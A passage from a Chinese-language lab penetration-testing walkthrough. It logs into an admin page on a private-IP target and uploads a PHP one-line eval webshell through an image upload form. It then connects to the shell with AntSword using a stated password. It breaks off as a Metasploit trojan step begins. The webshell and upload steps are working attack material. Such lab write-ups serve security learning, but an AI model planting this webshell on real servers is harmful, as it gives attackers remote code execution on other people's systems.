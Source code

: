 ## 2.6 超级用户登录

用我们刚才得到的账户和密码进行登录

跳转到了下列网址

```
http://192.168.81.144/welcomeadmin.php
```

进去发现我们可以上传图片和文件

![image-20220318112232354](https://gitee.com/xxb667/img/raw/master/img/image-20220318112232354.png)

# 3.getshell的4种方法

## 3-1 MSF反弹shell

### 3-1.1 上传木马文件

一句话木马

```
<?php @eval($_POST["xxb"]);?>
```

保存的文件名为xxb.php

点击 **Upload Image**进行上传

上传后得到路径

```
http://192.168.81.144/uploads
```

![image-20220318112739900](https://gitee.com/xxb667/img/raw/master/img/image-20220318112739900.png)

### 3-1.2 蚁剑连接

```
http://192.168.81.144/uploads/xxb.php
```

密码为：

```
xxb
```

![image-20220318113116069](https://gitee.com/xxb667/img/raw/master/img/image-20220318113116069.png)

### 3-1.3 上传木马文件

MSF生成木马文件，木马文件名为
